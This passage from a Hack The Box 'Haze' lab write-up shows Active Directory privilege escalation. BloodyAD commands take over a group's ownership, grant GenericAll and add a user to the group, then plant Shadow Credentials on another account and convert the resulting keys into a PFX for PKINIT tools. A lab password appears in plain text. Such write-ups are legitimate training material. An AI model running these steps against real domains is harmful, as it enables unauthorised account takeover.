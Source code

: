 ```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ export KRB5CCNAME=Haze-IT-Backup\$.ccache
```

Then we moved from `Impacket` to `BloodyAD` to first change the `owner` `Haze-IT-Backups$`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ bloodyAD -d haze.htb -u 'Haze-IT-Backup$' -k --host dc01.haze.htb --dc-ip 10.129.135.234 set owner "CN=Support_Services,CN=Users,DC=haze,DC=htb" Haze-IT-Backup$
[+] Old owner S-1-5-21-323145914-28650650-2368316563-512 is now replaced by Haze-IT-Backup$ on CN=Support_Services,CN=Users,DC=haze,DC=htb
```

Then we granted us `GenericAll` permissions.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ bloodyAD -d haze.htb -u 'Haze-IT-Backup$' -k --host dc01.haze.htb --dc-ip 10.129.135.234 add genericAll "CN=Support_Services,CN=Users,DC=haze,DC=htb" "Haze-IT-Backup$"
[+] Haze-IT-Backup$ has now GenericAll on CN=Support_Services,CN=Users,DC=haze,DC=htb
```

In order to add `Mark.Adams` as a `group member` on `SUPPORT_SERVICES`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ bloodyAD -d haze.htb -u 'Haze-IT-Backup$' -k --host dc01.haze.htb --dc-ip 10.129.135.234 add groupMember "CN=Support_Services,CN=Users,DC=haze,DC=htb" 'mark.adams'
[+] mark.adams added to CN=Support_Services,CN=Users,DC=haze,DC=htb
```

As next step we then used the `credentials` of `Mark.Adams` to actually use `Shadow Credentials` on `Edward.Martin`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ bloodyAD -d haze.htb -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' --host dc01.haze.htb --dc-ip 10.129.135.234 add shadowCredentials "CN=EDWARD MARTIN,CN=USERS,DC=HAZE,DC=HTB" --path edward-shadow.pem
[+] KeyCredential generated with following sha256 of RSA key: ce58ee744a8101212223f4e6d4ef62b63f8ad2e18b522f0ab467665fc5782070
[+] Saved PEM certificate at path: edward-shadow.pem_cert.pem
[+] Saved PEM private key at path: edward-shadow.pem_priv.pem
A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
Run the following command to obtain a TGT:
python3 PKINITtools/gettgtpkinit.py -cert-pem edward-shadow.pem_cert.pem -key-pem edward-shadow.pem_priv.pem haze.htb/CN=EDWARD MARTIN,CN=USERS,DC=HAZE,DC=HTB edward-shadow.pem.ccache
```

With the provided `.pem` files we created a valid `.pfx` in order to work with `PKINITtools`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ openssl pkcs12 -export \
  -out edward.pfx \
  -inkey edward-shadow.pem_priv.pem \
  -in edward-shadow.pem_cert.pem \
  -passout pass:
```
